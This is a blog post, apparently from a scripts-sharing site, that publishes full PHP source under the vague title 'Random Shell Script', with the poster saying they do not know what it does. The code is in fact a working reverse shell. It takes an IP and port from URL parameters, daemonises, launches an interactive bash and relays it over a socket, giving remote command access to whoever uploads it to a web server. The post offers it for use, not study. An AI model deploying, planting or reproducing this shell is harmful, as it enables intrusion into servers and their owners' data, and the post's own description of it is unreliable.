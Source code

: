 ```yaml
---
id: 86
title: Random Shell Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=86
permalink: /random-shell-script/
categories:
  - PHP
tags:
  - PHP
---
```

A random shell script.. I don&#8217;t know what this one does, or find any information on it. I don&#8217;t even know what it&#8217;s called! Anyway, it is very nicely written and commented.

### Random Shell Script Source Code

{% highlight php %}<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = $_GET["ip"]; 
$port = $_GET["port"]; 
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = '/bin/bash -p -i';
$daemon = 0;
$debug = 0;
 
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
 
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
 
    if ($pid) {
        exit(0);  // Parent exits
    }
 
    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }
 
    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
 
// Change to a safe directory
chdir("/");
 
// Remove any umask we inherited
umask(0);
 
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}
 
// Spawn shell process
$descriptorspec = array(
   0 =&gt; array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 =&gt; array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 =&gt; array("pipe", "w")   // stderr is a pipe that the child will write to
);
 
$process = proc_open($shell, $descriptorspec, $pipes);
 
if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}
 
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
 
printit("Successfully opened reverse shell to $ip:$port");
 
while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }
 
    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }
 
    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
 
    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }
 
    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }
 
    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}
 
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
 
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
?>
{% endhighlight %}